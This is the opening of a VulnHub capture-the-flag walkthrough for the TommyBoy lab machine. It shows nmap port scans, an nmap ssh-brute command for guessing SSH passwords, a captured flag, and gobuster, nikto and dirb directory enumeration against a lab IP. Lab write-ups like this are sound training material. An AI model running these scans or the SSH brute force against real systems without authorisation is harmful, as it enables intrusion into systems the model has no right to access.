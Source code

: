 # VulnHub Walkthrough: 👦 TommyBoy

TommyBoy Walkthrough

### Details
* Name: TommyBoy ([VulnHub](https://www.vulnhub.com/entry/tommy-boy-1,157/))
* Goal: Find the 5 flags, get the homepage up, & get root access.


### Network Scan

```bash
# Scan ports 0-65535
nmap -A -p0-65535 192.168.1.10

# Scan all ports, enumerate HTTP, etc.
sudo nmap -sC -sV -A -O -p- -T4 -script http-enum 192.168.1.10
```

Discovered open ports:
* 22: *SSH*
* 80: *HTTP*
* 8008: *HTTP*

From the first nmap scan, we immediately are able to see the location of **Flag 1**, */flag-numero-uno.txt*.
Then by going to `http://192.168.1.10/flag-numero-uno.txt` we get:
* `Flag 1: B34rcl4ws`

Additionally, we notice that port 22 is open, so we can try and use the [ssh-brute](https://nmap.org/nsedoc/scripts/ssh-brute.html) script within nmap to brute force the SSH login:
```bash
nmap -A --script ssh-brute 192.168.1.10 -p 22 
```


### HTTP directory enumeration

```bash
# Gobuster scan: Medium wordlist
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.1.10

# Gobuster scan: Large wordlist
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e -t 20 -u http://192.168.1.10

# Nikto scan
nikto -h http://192.168.1.10

# dirb scan
dirb http://192.168.1.10
```
